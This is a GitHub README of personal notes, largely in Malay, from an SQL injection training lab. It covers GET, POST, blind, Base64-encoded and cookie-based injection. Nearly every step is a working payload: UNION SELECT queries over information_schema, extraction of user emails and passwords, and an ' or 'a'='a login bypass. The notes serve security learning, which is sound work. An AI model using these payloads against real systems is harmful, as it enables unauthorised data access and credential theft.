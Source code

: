 # SQL-Injection-Training-Lab-notes
SQL Injection Training Lab notes for myself

## Level A - Basic GET SQL Injection
first payload for sqli `'` `"` `\` `)'` `}'` `\'` to test injectable

example page error after, use payload `'`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/4e32639f-6c0e-4c82-bf67-317bc2ff01df)

if blind base does not have error

example page injectable and back to normal page after, use payload `'--+`
`--` komen untuk sql
`+` untuk space di url

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/417f7304-7b32-4688-8702-e50e97ce6bad)

payload `'+order+by+6--+` untuk cari berapa column yang ada dlm db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/728fa968-dfb5-4570-a786-c663f8b35833)

payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code contoh `@@version` untuk check version , `database()` untuk check nama db, `user()` untuk check username db. jika string union all select detect guna hex iaitu %61 atau no2 lain
 
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e68c2dec-1ada-4a95-82de-d3c84da608fc)

payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+` untuk senaraikan semua db table dlm db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/75903416-fec8-4ba8-b5a1-d6befaa5ec0f)

payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+` untuk filter untuk current db sahaja mcm payload atas

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c3f53df9-f9db-4f76-9c1c-a5f5fd80db56)

payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()--+` untuk display semua jenis column untuk db 

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5c3f8a18-58f9-450b-8b34-6744b7f72d59)

payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='users'--+` untuk display semua jenis column untuk db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/20974b51-155d-44e1-b871-609104d9eebd)

payload `?id=-1'+union+all+select+1,group_concat(email),group_concat(password),4,5+from+users--+` untuk display email dan password sebab kita dah tahu table mana untuk guna

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9dd9dab2-4e32-46bd-add4-1fe787a87b68)

## Level B - Basic POST SQL Injection
beza get dgn post, kalu post tiada di url, kalu ada dia get

payload `user1'` untuk test error page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9b258237-6335-4e64-84cd-e29f02e2776b)

payload `user1'-- ` untuk test vuln dan back to normal page, tips guna `space` untuk ganti `+` di get method

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e2337ce0-2c05-440b-85ba-c5aea13b2fd2)

payload `user1'order by 5-- ` untuk cari berapa column yang ada dlm db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f1887807-0685-4449-b862-9c7a6161d3c8)

payload `user-1'union all select 1,2,3,4,5-- ` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/779ad3ae-ad74-440d-b9c9-699f86e803c4)

payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables-- ` untuk senaraikan semua db table dlm db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/31af9e0f-04ac-4619-a3be-74ae349f2f92)

payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()-- ` mcm step atas tapi ini filter kpd current db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bc76091e-ebe5-494d-83c1-f2347a55f614)

payload `user-1'union all select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='users' and table_schema=database()-- ` untuk display semua jenis column untuk db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5f3e4061-f448-4a3d-9985-f9624eee7177)

payload `user-1'union all select 1,group_concat(email),group_concat(password),4,5 from users-- ` untuk senarai email dan password

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/dc5c638f-be2f-4c0c-b3f9-5d86750151c9)

## Level C - POST Bypass Auth
payload `'` untuk check error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/6ba94a2a-bda7-4d3e-8305-d6582f79378b)

payload `'-- ` untuk repair error dan page ni vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/fd5010f6-14d0-4c94-9edf-03ea16485da9)

payload `' or 'a' = 'a` untuk bypass login dan letak di password sekali, auto dpt masuk

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f30df5d1-917f-4475-aabf-e3b9a0631812)

## Level D - GET Blind Based
blind sama dgn get method

payload `'` untuk test error page tapi blind tiada error atau data tk keluar page mcm gambar

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/622c5881-2e02-498b-b282-16e20422c651)

payload `'--+` untuk repair dan page vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7f368d86-c3f8-4dc7-abc5-d3fa1cb2b789)

payload `'+order+by+5--+` untuk cari berapa column yg ada dlm db contoh 6 dpt blind error so db ada 5 column

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bbccdea2-3ebb-4987-9704-8a587d2299d1)

payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1a51e4f-3619-4ea8-ab1d-2a9d67def8e2)

seterusnya step sama dgn get method

## Level E - Base64 GET SQL Injection

maksud encoded ialah berbeza bentuk contoh biasa Base64
Base64 `a-z` `A-Z` `0-9` `/` `+` dan 4 data iaitu `XX==` `XXX=` `XXXX`

payload `1'` convert `MSc=` untuk check error page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/8ae0dcee-a744-4c48-9f98-b1504516374e)

payload `1'-- ` convert `MSctLSA=` untuk repair page dan vuln page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5452bec6-df24-4917-9c15-44fe740658ad)

payload `1' order by 5-- ` convert `MScgb3JkZXIgYnkgNS0tIA==` kenapa 5 sebab db ada 5 column dan 6 dpt error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5a8141c0-ae0f-40da-bbca-565ca9a7e62f)

payload `-1' union all select 1,2,3,4,5-- ` convert `LTEnIHVuaW9uIGFsbCBzZWxlY3QgMSwyLDMsNCw1LS0g` untuk check name dan email berada di column mana dlm db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/3ff88ac0-e86a-4e67-8444-b748dec2f61f)

dan step seterusnya sama dgn level lain.

## Level H - Cookie Base SQL Injection
untuk check cookie buka `developer tools` atau button `f12` atau `inspect element` di browser bahagian console taip `document.cookie`
dan cookie disimpan di browser

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c75cd5b3-a35f-4532-b367-d2ac0bae1b0d)

payload `document.cookie = "userid=2"` untuk tukar kpd user 2

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/afc4f45f-14b4-4630-b112-35f95ff72dd7)

payload `document.cookie = "userid=2'"` untuk check error page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/33eb3578-4dcb-490b-bb42-e47d96dc5b34)

payload `document.cookie = "userid=1'-- -"` untuk repair dan page ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7fa4c83f-7ff9-47f2-bdfd-6571455c7053)

payload  `document.cookie = "userid=-1'union all select 1,2,3,4,5 -- -"` untuk check name dan email berada di  column mana dlm db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1bb83ee-4f2c-4f67-97e8-848717a43582)

dan step seterunya sama dgn level sebelumnya
